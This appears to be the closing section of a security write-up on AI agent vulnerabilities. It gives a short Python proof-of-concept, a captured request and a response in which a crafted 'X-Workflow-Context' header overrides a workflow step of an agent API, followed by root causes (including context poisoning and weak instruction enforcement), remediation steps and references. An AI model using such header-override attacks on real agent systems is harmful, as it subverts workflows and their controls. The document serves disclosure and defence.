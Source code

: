 **Exploit code:**

| import requests, json API\_URL \= "https://api.example.com/v1/agent/workflow" API\_KEY \= "TEST\_KEY" payload \= {"task": "execute", "data": "normal\_task"} headers \= {     "Authorization": f"Bearer {API\_KEY}",     "Content-Type": "application/json",     "X-Workflow-Context": "override\_step\_3" } r \= requests.post(API\_URL, headers=headers, data=json.dumps(payload)) print(r.status\_code) print(r.text) |
| :---- |

**Evidence:**

Attack request:

| POST /v1/agent/workflow HTTP/1.1 Host: api.example.com Authorization: Bearer TEST\_KEY Content-Type: application/json X-Workflow-Context: override\_step\_3 {   "task": "execute",   "data": "normal\_task" } |
| :---- |

Vulnerable response: 

| HTTP/1.1 200 OK Content-Type: application/json {   "result": "executed",   "warning": "Workflow step 3 overridden due to header manipulation" } |
| :---- |

# Root causes:

1. Insufficient input validation and sanitization in APIs.  
2. Lack of strict role verification or system instruction enforcement in AI prompts.  
3. Weak provenance checks for model updates or third-party component integration.  
4. Persistent context stores (memory/history) susceptible to poisoning.  
5. Unmonitored metadata or workflow headers influencing AI execution.

# Remediation:

* Enforce input validation, sanitization, and encoding.  
* Apply AI safety policies and role checks.  
* Verify system instructions before executing requests.  
* Scan and secure third-party dependencies regularly.  
* Log workflows and detect anomalies continuously.  
* Regularly audit AI models, pipelines, APIs.

# References: 

[https://fdzdev.medium.com/security-vulnerabilities-in-autonomous-ai-agents-26f905b2dc36](https://fdzdev.medium.com/security-vulnerabilities-in-autonomous-ai-agents-26f905b2dc36) 

[https://www.trendmicro.com/vinfo/in/security/news/threat-landscape/unveiling-ai-agent-vulnerabilities-part-i-introduction-to-ai-agent-vulnerabilities](https://www.trendmicro.com/vinfo/in/security/news/threat-landscape/unveiling-ai-agent-vulnerabilities-part-i-introduction-to-ai-agent-vulnerabilities) 

[https://genai.owasp.org/resource/agentic-ai-threats-and-mitigations/](https://genai.owasp.org/resource/agentic-ai-threats-and-mitigations/) 

[https://snyk.io/articles/secure-software-supply-chain-ai/](https://snyk.io/articles/secure-software-supply-chain-ai/) 

[https://apisecurity.io/issue-270-ai-double-agents-securing-api-access-openapi-driven-mcp-apis-expose-33000-employees/](https://apisecurity.io/issue-270-ai-double-agents-securing-api-access-openapi-driven-mcp-apis-expose-33000-employees/) 

[https://www.humansecurity.com/learn/blog/agentic-ai-security-owasp-threats/](https://www.humansecurity.com/learn/blog/agentic-ai-security-owasp-threats/) 

